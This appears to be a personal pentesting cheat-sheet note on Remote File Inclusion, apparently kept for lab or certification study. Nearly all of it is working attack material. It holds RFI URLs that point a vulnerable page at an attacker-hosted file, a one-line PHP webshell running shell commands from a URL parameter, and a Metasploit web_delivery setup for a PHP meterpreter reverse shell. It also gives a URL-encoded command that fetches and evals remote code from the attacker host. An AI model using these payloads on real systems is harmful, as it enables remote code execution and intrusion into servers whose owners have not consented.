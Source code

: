 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[RFI]]  
___

## Description:  

Remote File Inclusion

Typically has a url like this
 
http://10.10.110.213/lang.php?page=
 
Point the page to your remote webpage hosted with http or smb (make sure to setup your smb server)
 
http://10.10.110.213/lang.php?page=\\10.10.14.23\public\webshell.php

You can get command injection by providing php code:
```
kali@kali:/var/www/html$ cat evil.txt
<?php echo shell_exec($_GET['cmd']); ?>

Now visit the webpage with the RFI:
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig

```

### Metasploit shell
Use web delivery to get a shell

```
msfconsole

use exploit/multi/handler

use exploit/multi/script/web_delivery

set target 1

set payload php/meterpreter/reverse_tcp

set uripath /

set srvhost 10.10.14.79

set lhost 10.10.14.79

run
```

Copy and paste the command in msfconsole in your web browser:
`php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.10.14.79:8080/', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"`

`http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&c=php%20-d%20allow_url_fopen=true%20-r%20%22eval(file_get_contents(%27http://10.10.14.79:8080/%27,%20false,%20stream_context_create([%27ssl%27=%3E[%27verify_peer%27=%3Efalse,%27verify_peer_name%27=%3Efalse]])));%22`

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (03:14 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
